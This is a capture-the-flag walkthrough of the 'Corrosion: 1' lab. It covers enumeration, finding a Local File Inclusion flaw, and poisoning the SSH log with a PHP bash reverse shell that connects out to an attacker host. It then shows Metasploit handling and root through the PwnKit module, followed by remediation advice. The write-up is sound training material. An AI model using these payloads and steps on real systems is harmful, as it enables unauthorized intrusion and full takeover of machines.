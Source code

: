 # Corrosion: 1 — TryHackMe / VulnHub CTF

**Objective**  
Gain initial access and escalate privileges on a Linux target by exploiting Local File Inclusion and leveraging a known kernel vulnerability.

---

## 🔍 Discovery

**Goal:** Identify the target and exposed services.

Ran a basic Nmap scan:

```bash
nmap -sV -Pn <target-ip>
```

**Discovered open ports:**
- Port 80 — Apache HTTP
- Port 22 — SSH

➡ These services indicate remote access points and web interaction — perfect starting points.

---

## 🕵️ Enumeration

**Goal:** Uncover hidden directories and files

**Step 1 — Gobuster on root:**

```bash
gobuster dir -u http://<target-ip>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,log
```

**Findings:**
- `/tasks`
- `/blog-post`

**Step 2 — Gobuster on `/blog-post`:**

```bash
gobuster dir -u http://<target-ip>/blog-post/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,log
```

**Discovered:**
- `/archives` → Contained `randylogs.php`
- `/uploads`

---

## ⚙️ Foothold (LFI Discovery)

**Observation:**  
The file `randylogs.php` hinted at a Local File Inclusion vulnerability.

**Fuzzed using wfuzz:**

```bash
wfuzz -u http://<target-ip>/blog-post/archives/randylogs.php?FUZZ=/var/log/auth.log -w /usr/share/wordlists/dirb/common.txt --hw=65 --hh=0
```

✅ Found vulnerable `file` parameter.

---

## 🔓 Gaining Access (Log Poisoning via LFI)

Exploited LFI to read `/var/log/auth.log`.

**Injected reverse shell into SSH logs using Netcat:**

```bash
nc <target-ip> 22
<?php system('bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1"'); ?>
```

**Triggered payload via LFI:**

```
http://<target-ip>/blog-post/archives/randylogs.php?file=/var/log/auth.log
```

**Listener (Metasploit):**

```bash
use exploit/multi/handler
set payload cmd/unix/reverse_bash
set LHOST <ATTACKER_IP>
set LPORT <PORT>
run
```

🎉 Reverse shell gained as `www-data`.

---

## 🚀 Shell Upgrade

**Upgraded to Meterpreter:**

```bash
sessions
sessions -u <session_id>
```

Now had a stable and interactive session.

---

## 🔐 Privilege Escalation

**Used Metasploit Local Exploit Suggester:**

```bash
use post/multi/recon/local_exploit_suggester
set SESSION <meterpreter_id>
run
```

**Suggested exploit:**  
- CVE-2021-4034 (PwnKit)

```bash
use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
set SESSION <meterpreter_id>
run
```

🎯 Result: Root access obtained!

---

## 🛡️ Remediation Steps

1. **Review Web Server Configurations**
   - Disable directory listing
   - Restrict direct access to `/archives`
   - Validate allowed upload types

2. **Sanitize User Input**
   - Whitelist acceptable parameters
   - Encode and validate file paths
   - Block directory traversal patterns

3. **Patch Known Vulnerabilities**
   - Update `polkit` to patch CVE-2021-4034
   - Regularly apply security updates to system packages and kernel

---

## 🏁 Status: **Rooted**

Successfully exploited LFI and escalated to root using a known kernel vulnerability.

